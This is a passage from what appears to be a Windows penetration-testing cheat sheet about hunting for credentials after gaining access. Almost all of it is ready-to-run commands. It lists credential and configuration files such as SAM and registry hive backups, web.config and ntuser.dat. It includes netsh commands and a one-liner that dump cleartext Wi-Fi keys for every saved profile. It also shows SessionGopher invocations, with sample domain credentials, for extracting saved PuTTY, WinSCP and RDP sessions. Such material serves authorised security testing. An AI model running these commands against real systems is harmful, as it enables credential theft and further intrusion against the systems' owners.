 ```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
C:\inetpub\wwwroot\web.config
```

### Other files

```bat
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
dir c:*vnc.ini /s /b
dir c:*ultravnc.ini /s /b
```

### Wifi passwords

Find AP SSID
```bat
netsh wlan show profile
```

Get Cleartext Pass
```bat
netsh wlan show profile <SSID> key=clear
```

Oneliner method to extract wifi passwords from all the access point.

```batch
cls & echo. & for /f "tokens=4 delims=: " %a in ('netsh wlan show profiles ^| find "Profile "') do @echo off > nul & (netsh wlan show profiles name=%a key=clear | findstr "SSID Cipher Content" | find /v "Number" & echo.) & @echo on
```

### Passwords stored in services

Saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using [SessionGopher](https://github.com/Arvanaghi/SessionGopher)


```powershell
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

